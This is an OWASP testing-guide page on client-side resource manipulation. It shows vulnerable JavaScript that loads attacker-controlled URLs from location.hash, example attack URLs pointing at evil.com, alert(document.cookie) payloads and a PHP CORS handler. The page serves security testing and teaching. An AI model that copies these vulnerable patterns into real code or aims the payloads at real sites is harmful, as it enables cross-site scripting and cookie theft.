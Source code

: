```yaml
---

layout: col-document
title: WSTG - v4.2
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Client-side Resource Manipulation

|ID          |
|------------|
|WSTG-CLNT-06|

## Summary

A client-side resource manipulation vulnerability is an input validation flaw. It occurs when an application accepts user-controlled input that specifies the path of a resource such as the source of an iframe, JavaScript, applet, or the handler of an XMLHttpRequest. This vulnerability consists of the ability to control the URLs that link to some resources present in a web page. The impact of this vulnerability varies, and it is usually adopted to conduct XSS attacks. This vulnerability makes it is possible to interfere with the expected application's behavior by causing it to load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which an attacker is able to control the `location.hash` (source) which reaches the attribute `src` of a script element. This particular case leads to a XSS attack as external JavaScript could be injected.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

An attacker could target a victim by causing them to visit this URL:

`www.victim.com/#http://evil.com/js.js`

Where `js.js` contains:

```js
alert(document.cookie)
```

This would cause the alert to pop up on the victim's browser.

A more damaging scenario involves the possibility of controlling the URL called in a CORS request. Since CORS allows the target resource to be accessible by the requesting domain through a header-based approach, the attacker may ask the target page to load malicious content from its own website.

Here is an example of a vulnerable page:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

The `location.hash` is controlled by user input and is used for requesting an external resource, which will then be reflected through the construct `innerHTML`. An attacker could ask a victim to visit the following URL:

`www.victim.com/#http://evil.com/html.html`

With the payload handler for `html.html`:

```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## Test Objectives

- Identify sinks with weak input validation.
- Assess the impact of the resource manipulation.

## How to Test

To manually check for this type of vulnerability, we must identify whether the application employs inputs without correctly validating them. If so, these inputs are under the control of the user and could be used to specify external resources. Since there are many resources that could be included in the application (such as images, video, objects, css, and iframes), the client-side scripts that handle the associated URLs should be investigated for potential issues.

The following table shows possible injection points (sink) that should be checked:

| Resource Type   | Tag/Method                                | Sink   |
| --------------- | ----------------------------------------- | ------ |
| Frame           | iframe                                    | src    |
| Link            | a                                         | href   |
| AJAX Request    | `xhr.open(method, [url], true);` | URL    |
| CSS             | link                                      | href   |
| Image           | img                                       | src    |
| Object          | object                                    | data   |
| Script          | script                                    | src    |

The most interesting ones are those that allow to an attacker to include client-side code (for example JavaScript) that could lead to XSS vulnerabilities.
